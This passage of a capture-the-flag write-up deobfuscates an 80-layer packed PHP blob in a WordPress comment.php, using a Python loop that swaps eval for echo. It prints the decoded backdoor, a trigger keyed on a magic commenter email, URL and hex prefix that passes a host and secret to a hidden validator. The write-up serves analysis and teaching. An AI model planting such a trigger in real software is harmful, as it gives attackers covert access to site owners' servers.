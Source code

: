 Unpackeding the first layer it is packed again. Since we don't know how many layers there will be it would make sense to automate the process. For this we first copy the eval blob from `comment.php` to a new file.

`blob`
```
eval(gzuncompress(str_rot13(base64_decode('[base64-blob]')));
```

Now we can use python to unpack it layer for layer. The script assumes that there is always an eval at the start of the blob and various ways to pack or encode the data afterwards. It first creates a valid php file with the blob and replacing the eval statement with echo. Then it executes the decoding, unpacking and redirects it to a new blob. This happens as long as there is another eval statement in the resulting blob.

`unpack.py`
```py
import os
from time import sleep

blob = open('./blob', 'r').read()

check = True
counter = 1

while check:
    check = False
    if 'eval' in blob:
        check = True
        script = open(f'./script{counter}.php', 'w')
        script.write('<?php\n')
        script.write(blob.replace('eval', 'echo'))
        script.write('\n')
        script.write('?>')
        script.close()
        print(f'Unpacking layer: {counter}')
        os.system(f'php ./script{counter}.php > blob{counter}')
        blob = open(f'./blob{counter}').read()
        counter += 1
```

Running the script 80 layers of packing get undone and we finally get readable code.

```
$ python unpack.py
Unpacking layer: 1
Unpacking layer: 2
Unpacking layer: 3
...[snip]...
Unpacking layer: 78
Unpacking layer: 79
Unpacking layer: 80
```

```
$ cat blob80
if($comment_author_email=="help@toby.htb"&&$comment_author_url=="http://test.toby.htb/"&&substr($comment_content,0,8)=="746f6279"){$a=substr($comment_content,8);$host=explode(":",$a)[0];$sec=explode(":",$a)[1];$d="/usr/bin/wordpress_comment_validate";include $d;wp_validate_4034a3($host,$sec);return new WP_Error('unspecified error');}
```
